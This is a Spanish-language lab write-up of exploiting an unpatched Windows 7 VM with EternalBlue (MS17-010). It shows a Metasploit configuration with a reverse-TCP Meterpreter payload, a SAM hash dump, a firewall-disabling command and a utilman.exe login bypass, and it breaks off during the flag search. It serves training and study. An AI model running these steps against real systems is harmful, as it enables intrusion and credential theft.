# The Shadow Brokers — Writeup de auditoría

**Laboratorio:** Whoami-Labs — *The Shadow Brokers* (nivel Easy)  
**URL:** <https://whoami-labs.com/laboratorios/the-shadow-brokers>  
**Fecha de la auditoría:** 2026-11-06  
**Atacante:** Kali Linux — `172.16.202.129`  
**Autor:** chifay  
**Objetivo:** Windows 7 Professional 7600 x64 — `172.16.202.133` (`WIN-N4B35F4APQ5`)  
**Vector:** MS17-010 / EternalBlue (CVE-2017-0143)  
**Resultado:** acceso inicial remoto y compromiso total como `NT AUTHORITY\SYSTEM`; flag recuperada desde un ADS en el perfil de `Administrator`

---

## 1. Resumen ejecutivo

El laboratorio **The Shadow Brokers** reproduce un Windows 7 sin parches expuesto por SMBv1. La validación con Nmap y Metasploit confirmó que el host era vulnerable a **XXXXX (EternalBlue, CVE-2017-0143)**. La explotación permitió abrir una sesión Meterpreter x64 como **`NT AUTHORITY\SYSTEM`** sin credenciales previas.

A partir de esa sesión se obtuvo:

- Ejecución de comandos como **SYSTEM**.
- Volcado de la base SAM (`hashdump`).
- Recuperación del hash NTLM de `student` y `Zero`:
  - `8264f96dd3dacba5cc8197c43b19e221`
  - Contraseña correspondiente: **`MS17-010`** (verificada por cálculo NTLM y autenticación SMB real).
- Acceso al share `Users` con la cuenta `student`.
- Búsqueda de la flag con privilegios **SYSTEM** en las rutas protegidas del sistema.
- Recuperación de la flag real desde el stream alternativo NTFS `C:\Users\Administrator\Desktop\flag.txt:secret`:

```text
flag{...}
```

La búsqueda inicial en el perfil de `student` solo encontró señuelos: `C:\Users\student\Documents\fLAG.txt` está vacío (0 bytes) y `C:\Users\student\Downloads\pASSWORD` es un directorio vacío. La flag estaba en el perfil de `Administrator`, oculta en un **ADS** (Alternate Data Stream) que no aparece con un `dir` normal.

> **Nota de alcance:** el host se encontraba inicialmente en la pantalla de login con el firewall de Windows bloqueando SMB (`445/tcp filtered`). Para habilitar el vector se aplicó, de forma autorizada sobre la consola de VMware, el bypass de `utilman.exe` y se ejecutó `netsh advfirewall set allprofiles state off`. Todos los pasos de explotación posteriores se realizaron desde Kali contra `172.16.202.133`.

---

## 2. Entorno y alcance

| Elemento | Valor |
|---|---|
| Atacante | Kali Linux `172.16.202.129/24` |
| Objetivo | `172.16.202.133` |
| Hostname | `WIN-N4B35F4APQ5` |
| Sistema operativo | Windows 7 Professional 7600 x64 (RTM, sin parches) |
| Workgroup | `WORKGROUP` |
| MAC del objetivo | `00:0C:29:00:28:1B` (VMware) |
| Gateway | `172.16.202.2` |
| Servicios relevantes | 135/tcp (MSRPC), 139/tcp (NetBIOS), 445/tcp (SMB) |
| Servicios cerrados | 3389/tcp (RDP), 5985/tcp (WinRM) |

**Alcance:** auditoría del host Windows 7 del laboratorio y de su superficie SMB. No se realizaron ataques de denegación de servicio ni acciones sobre otros hosts de la subred.

---

## 3. Reconocimiento

### 3.1 Identificación de la red y del objetivo

Se verificó la interfaz del atacante, la ruta por defecto y la entrada ARP del objetivo. La dirección `172.16.202.133` respondió a nivel de enlace con la MAC `00:0c:29:00:28:1b`, correspondiente a una VM de VMware.



*Figura 1 — Interfaz `eth0` en `172.16.202.129/24`, gateway `172.16.202.2` y vecino `172.16.202.133` en estado `REACHABLE`.*

### 3.2 Descubrimiento de hosts

El barrido de la subred identificó cinco hosts: el gateway de VMware (`.2`), dos adaptadores del host (`.1` y `.254`), el atacante (`.129`) y la VM objetivo (`.133`). La MAC VMware de `.133` coincide con la observada por ARP.



*Figura 2 — `nmap -sn 172.16.202.0/24`: el objetivo es `172.16.202.133` (VMware, `00:0C:29:00:28:1B`).*

### 3.3 Estado inicial: SMB bloqueado por firewall

Antes de habilitar el vector, el primer barrido devolvió los puertos SMB filtrados. El host estaba vivo a nivel L2, pero Windows Firewall descartaba el tráfico entrante en la pantalla de login:

```text
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-06 12:05 -0600
Nmap scan report for 172.16.202.133
Host is up (0.00056s latency).

PORT     STATE    SERVICE
135/tcp  filtered msrpc
139/tcp  filtered netbios-ssn
445/tcp  filtered microsoft-ds
3389/tcp filtered ms-wbt-server
5985/tcp filtered wsman
MAC Address: 00:0C:29:00:28:1B (VMware)
```

Tras el bypass autorizado de consola y la desactivación del firewall, el mismo escaneo mostró la superficie SMB abierta:



*Figura 3 — Puertos 135, 139 y 445 abiertos; 3389 y 5985 cerrados. El servicio SMB se identifica como Windows 7–10.*

---

## 4. Enumeración SMB y validación de la vulnerabilidad

### 4.1 Descubrimiento del sistema operativo

El script `smb-os-discovery` confirmó un **Windows 7 Professional 7600 x64** en el hostname `WIN-N4B35F4APQ5`, dentro del workgroup `WORKGROUP`.



*Figura 4 — `smb-os-discovery`: Windows 7 Professional 7600 (6.1), x64.*

### 4.2 Confirmación de MS17-010

El script `smb-vuln-ms17-010` marcó el servidor SMBv1 como **VULNERABLE** a MS17-010 / CVE-2017-0143, con factor de riesgo alto.



*Figura 5 — `smb-vuln-ms17-010`: `State: VULNERABLE`, `IDs: CVE:CVE-2017-0143`.*

---

## 5. Validación con Metasploit

Antes de explotar se ejecutó el `check` del módulo `exploit/windows/smb/ms17_010_eternalblue`. Metasploit confirmó que el objetivo era vulnerable y seleccionó el payload x64 por defecto.



*Figura 6 — `check`: “Host is likely VULNERABLE to MS17-010” y “The target is vulnerable.”*

Configuración utilizada:

```text
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 172.16.202.133
set RPORT 445
set LHOST 172.16.202.129
set LPORT 4444
set PAYLOAD windows/x64/meterpreter/reverse_tcp
run -j
```

---

## 6. Explotación EternalBlue

La ejecución del exploit completó el *overwrite* de EternalBlue (`0xC000000D`) y abrió la sesión Meterpreter:

```text
[+] 172.16.202.133:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] Sending stage (255678 bytes) to 172.16.202.133
[*] Meterpreter session 1 opened (172.16.202.129:4444 -> 172.16.202.133:49165)
```



*Figura 7 — `sessions -l`: sesión 1, `meterpreter x64/windows`, `NT AUTHORITY\SYSTEM @ WIN-N4B35F4APQ5`.*

### 6.1 Confirmación de privilegios y sistema

Dentro de la sesión se ejecutaron `getuid` y `sysinfo`:

```text
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

meterpreter > sysinfo
Computer        : WIN-N4B35F4APQ5
OS              : Windows 7 (6.1 Build 7600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x64/windows
```



*Figura 8 — Confirmación de `NT AUTHORITY\SYSTEM` y de Windows 7 Build 7600 x64.*

---

## 7. Post-explotación

### 7.1 Volcado de hashes SAM

Con privilegios SYSTEM se ejecutó `hashdump`:

```text
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HomeGroupUser$:1002:aad3b435b51404eeaad3b435b51404ee:27ce4b64d49cf6459fa5e43fc98cedc6:::
student:1000:aad3b435b51404eeaad3b435b51404ee:8264f96dd3dacba5cc8197c43b19e221:::
Zero:1003:aad3b435b51404eeaad3b435b51404ee:8264f96dd3dacba5cc8197c43b19e221:::
```



*Figura 9 — Hashes SAM. `student` y `Zero` comparten el mismo hash NTLM.*

Observaciones:

- `Administrator` y `Guest` tienen el hash de una contraseña vacía; no se utilizaron para el acceso remoto en esta auditoría.
- `student` (RID 1000) y `Zero` (RID 1003) comparten el hash `8264f96dd3dacba5cc8197c43b19e221`.
- El hash corresponde a la contraseña **`XXXXX`**, coherente con el nombre del laboratorio.

### 7.2 Verificación de la contraseña

Se calculó el hash NTLM de `XXXXX` en local y coincidió exactamente con el hash de `student` y `Zero`:

```text
8264f96dd3dacba5cc8197c43b19e221
```



*Figura 10 — `MD4(UTF-16LE("XXXXX")) = 8264f96dd3dacba5cc8197c43b19e221`.*

### 7.3 Acceso SMB con la credencial recuperada

La autenticación SMB real con `student:XXXXX` funcionó y permitió listar el share `Users`:

```bash
smbclient //172.16.202.133/Users -U 'student%XXXXX' -m SMB2 -c 'ls'
```



*Figura 11 — Acceso válido al share `Users`; se observan `Administrator`, `Default`, `Public` y `student`.*

### 7.4 Señuelos en el perfil de `student`

Se listaron los artefactos más evidentes del perfil de `student`:

- `C:\Users\student\Documents\fLAG.txt` — **0 bytes**.
- `C:\Users\student\Downloads\pASSWORD` — directorio vacío.



*Figura 12 — `fLAG.txt` vacío y directorio `pASSWORD` sin contenido.*

Los nombres `fLAG.txt` y `pASSWORD` son señuelos: el primero está vacío y el segundo es un directorio sin contenido. La flag no estaba en el perfil del usuario comprometido.

### 7.5 Búsqueda en ubicaciones protegidas con privilegios SYSTEM

Con la sesión SYSTEM se ejecutó un script de PowerShell que recorrió las rutas protegidas y sensibles del sistema, omitiendo *reparse points* para evitar bucles en las junctions de los perfiles:

- `C:\System Volume Information`
- `C:\Windows\System32\config` y `C:\Windows\System32\config\RegBack`
- `C:\Windows\ServiceProfiles`, `C:\Windows\Panther`, `C:\Windows\Temp`
- `C:\Windows\System32\Tasks`, `LogFiles`, `winevt\Logs`, `spool`, `MsDtc`, `SMI`, `catroot2`
- `C:\Windows\System32\wbem\Repository`
- `C:\Windows\System32\Microsoft\Protect`
- `C:\$Recycle.Bin`, `C:\ProgramData`
- `C:\Users\Administrator`, `C:\Users\student`, `C:\Users\Zero`

También se verificó el acceso directo a `C:\System Volume Information` y a `C:\Windows\System32\config` (hives `SAM`, `SECURITY` y `SYSTEM`), rutas que un usuario estándar no puede listar:



*Figura 13 — `whoami` confirma `NT AUTHORITY\SYSTEM` y `dir` lista `C:\System Volume Information`.*

El script buscó nombres con `flag`, `secret` o `password`, y contenido con patrones tipo `WHOAMI{`, `FLAG{`, `CTF{`, entre otros. Accedió a 20 de 21 rutas (`C:\Users\Zero` no existía) y localizó el candidato `C:\Users\Administrator\Desktop\flag.txt`:

